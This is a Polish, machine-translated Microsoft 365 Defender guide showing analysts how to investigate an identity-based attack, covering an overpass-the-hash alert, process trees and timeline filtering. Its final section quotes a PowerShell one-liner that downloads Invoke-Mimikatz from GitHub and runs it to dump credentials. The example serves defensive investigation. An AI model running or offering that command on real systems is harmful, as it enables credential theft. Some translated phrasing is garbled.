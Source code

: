 ```yaml
---
title: Przykładowy atak oparty na tożsamości
description: Przesuń się przez przykładową analizę ataków opartych na tożsamości.
keywords: zdarzenia, alerty, badanie, korelacja, atak, komputery, urządzenia, użytkownicy, tożsamości, tożsamość, skrzynka pocztowa, poczta e-mail, 365, microsoft, m365, reagowanie na incydenty, cyberataki
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: pl-PL
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570112"
---
```

# <a name="example-of-an-identity-based-attack"></a>Przykładowy atak oparty na tożsamości

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Dotyczy:**
- Microsoft 365 Defender

Microsoft Defender for Identity pomóc w wykryciu złośliwych prób naruszenia tożsamości w organizacji. Ponieważ program Defender for Identity jest zintegrowany z programem Microsoft 365 Defender, analitycy zabezpieczeń mogą mieć wgląd w zagrożenia pochodzące z usługi Defender for Identity, takie jak podejrzewane próby podwyższenia uprawnień użytkownika Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analizowanie ataków w programie Microsoft Defender for Identity

Microsoft 365 Defender umożliwia analitykom filtrowanie alertów przez wykrywanie źródła na karcie **Alerty** na stronie zdarzeń. W poniższym przykładzie źródło wykrywania jest filtrowane do usługi **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrowanie źródła wykrywania w Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Wybranie **alertu o podejrzewanym** o wmięcie krzyżyka powoduje wyświetlenie strony w programie Microsoft Defender for Cloud Apps która zawiera bardziej szczegółowe informacje. Zawsze możesz dowiedzieć się więcej o alertach lub atakach, wybierając pozycję Dowiedz się więcej o tym typie **alertu**[, aby przeczytać](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) opis sugestii dotyczących ataków i działań naprawczych.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Badanie tego samego ataku w Ochrona punktu końcowego w usłudze Microsoft Defender

Alternatywnie analityk może użyć usługi Defender for Endpoint, aby dowiedzieć się więcej o aktywności w punkcie końcowym. Wybierz zdarzenie z kolejki zdarzeń, a następnie wybierz **kartę Alerty** . W tym miejscu także mogą zidentyfikować źródło wykrywania. Źródło wykrywania oznaczone jako EDR oznacza Endpoint Detection and Response (Wykrywanie punktu końcowego i odpowiedzi), czyli Defender for Endpoint (Punkt końcowy). W tym miejscu analityk wybiera alert wykryty przez EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Wykrywanie punktu końcowego i odpowiedź w portalu Ochrona punktu końcowego w usłudze Microsoft Defender sieci Web" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Na stronie alertu są wyświetlane różne istotne informacje, takie jak nazwa urządzenia, nazwa użytkownika, stan automatycznego badania i szczegóły alertu. Historia alertów przedstawia wizualną reprezentację drzewa procesu. Drzewo procesu jest hierarchiczną reprezentacją procesów nadrzędnych i podrzędnych powiązanych z alertem.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Drzewo procesu alertu w Ochrona punktu końcowego w usłudze Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Każdy proces można rozwinąć, aby wyświetlić więcej szczegółów. Szczegóły, które może zobaczyć analityk, to rzeczywiste polecenia wprowadzone w ramach złośliwego skryptu, adresy IP połączeń wychodzących i inne przydatne informacje.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Szczegóły procesu w portalu Ochrona punktu końcowego w usłudze Microsoft Defender klienta" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Wybierając pozycję **Zobacz na osi czasu**, analityk może jeszcze bardziej przejść do szczegółów w celu określenia dokładnego czasu naruszenia. 

Ochrona punktu końcowego w usłudze Microsoft Defender wykrywać wiele złośliwych plików i skryptów. Jednak z powodu wielu legalnych zastosowań połączeń wychodzących, programu PowerShell i działań w wierszu polecenia niektóre działania będą uznawane za ważne do czasu, aż zostanie w wyniku tego złośliwy plik lub działanie. Dlatego korzystanie z osi czasu ułatwia analitykom stosowanie alertu w kontekście otaczającego go działania w celu określenia pierwotnego źródła lub czasu ataków, które w innym przypadku jest przesłonięte przez wspólny system plików i działania użytkowników. 

Aby użyć osi czasu, analityk uruchamiał się w momencie wykrywania alertu (w kolorze czerwonym) i przewijał w dół w czasie, aby ustalić, kiedy pierwotne działanie, które w rzeczywistości spowodowało złośliwe działanie. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Czas rozpoczęcia pracy analityka dla wykrywania alertu" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Ważne jest zrozumienie i rozróżnienie typowych działań, takich jak połączenia usługi Windows Update Windows, ruch aktywacji zaufanego oprogramowania, inne typowe połączenia z witrynami firmy Microsoft, aktywność internetowa innych firm, działania Microsoft Endpoint Configuration Manager i inne aktywność ekwiązyjna przed podejrzanymi działaniami aktywność. Jednym ze sposobów rozróżniania jest korzystanie z filtrów osi czasu. Istnieje wiele filtrów, które mogą wyróżniać określone działania podczas odfiltrowania danych, których analityk nie chce wyświetlać. 

Na poniższej ilustracji analityk przefiltrował wyświetlanie tylko zdarzeń sieci i procesów. Te kryteria filtru umożliwiają analitykowi wyświetlanie połączeń sieciowych i procesów otaczających zdarzenie, w którym program Notatnik nawiągł połączenie z adresem IP, co było również widać w drzewie procesu. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Jak Notatnik w celu nawiązaniu złośliwego połączenia wychodzącego" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

W tym konkretnym zdarzeniu Notatnik zostało użyte do nawiązaniu złośliwego połączenia wychodzącego. Jednak często atakujący używają oprogramowania iexplorer.exe do nawiązywania połączeń w celu pobrania złośliwego ładowania, ponieważ zwykle iexplorer.exe są uznawane za zwykła aktywność w przeglądarkach internetowych.

Innym elementem do wyszukiwania na osi czasu będzie program PowerShell używany do połączeń wychodzących. Analityk będzie szukać skutecznych połączeń programu PowerShell z poleceniami `IEX (New-Object Net.Webclient)` , takimi jak połączenia wychodzące z witryną internetową hostującym złośliwy plik. 

W poniższym przykładzie program PowerShell został użyty do pobrania i wykonania mimikatz z witryny internetowej:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analityk może szybko wyszukać słowa kluczowe, wpisując słowo kluczowe na pasku wyszukiwania, aby wyświetlić tylko zdarzenia utworzone za pomocą programu PowerShell. 

## <a name="next-step"></a>Następny krok

Zobacz [ścieżkę badania wyłudzania](first-incident-path-phishing.md) informacji.

## <a name="see-also"></a>Zobacz też

- [Omówienie zdarzeń](incidents-overview.md)
- [Zarządzanie zdarzeniami](manage-incidents.md)
- [Badanie zdarzeń](investigate-incidents.md)
